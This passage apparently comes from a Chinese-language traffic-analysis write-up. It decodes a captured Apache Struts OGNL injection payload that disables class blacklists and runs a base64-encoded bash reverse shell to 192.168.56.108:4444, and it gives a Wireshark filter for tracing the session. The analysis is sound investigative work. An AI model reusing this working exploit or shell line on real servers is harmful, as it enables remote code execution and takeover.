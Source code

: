 进行url解码后获得如下：
```
id=%25%7b%28%23instancemanager%3d%23application%5b%22org.apache.tomcat.InstanceManager%22%5d%29.%28%23stack%3d%23attr%5b%22com.opensymphony.xwork2.util.ValueStack.ValueStack%22%5d%29.%28%23bean%3d%23instancemanager.newInstance%28%22org.apache.commons.collections.BeanMap%22%29%29.%28%23bean.setBean%28%23stack%29%29.%28%23context%3d%23bean.get%28%22context%22%29%29.%28%23bean.setBean%28%23context%29%29.%28%23macc%3d%23bean.get%28%22memberAccess%22%29%29.%28%23bean.setBean%28%23macc%29%29.%28%23emptyset%3d%23instancemanager.newInstance%28%22java.util.HashSet%22%29%29.%28%23bean.put%28%22excludedClasses%22%2c%23emptyset%29%29.%28%23bean.put%28%22excludedPackageNames%22%2c%23emptyset%29%29.%28%23execute%3d%23instancemanager.newInstance%28%22freemarker.template.utility.Execute%22%29%29.%28%23execute.exec%28%7b%22bash%20-c%20%7becho%2cYmFzaCAtYyAnMDwmMTA1LTtleGVjIDEwNTw%2bL2Rldi90Y3AvMTkyLjE2OC41Ni4xMDgvNDQ0NDtzaCA8JjEwNSA%2bJjEwNSAyPiYxMDUn%7d%7c%7bbase64%2c-d%7d%7cbash%22%7d%29%29%7d
```

进行base64编码后获得：

`bash -c '0<&105-;exec 105<>/dev/tcp/192.168.56.108/4444;sh <&105 105>&105 2>&105'`

* 可以看到这是一个典型的 Bash 反弹 Shell（Reverse Shell） 命令，用于建立与攻击者机器的远程连接。

使用过滤规则：`ip.src == 192.168.56.108 && tcp.port== 4444`查看其相关执行的指令：

![alt text](1742799464566.png)
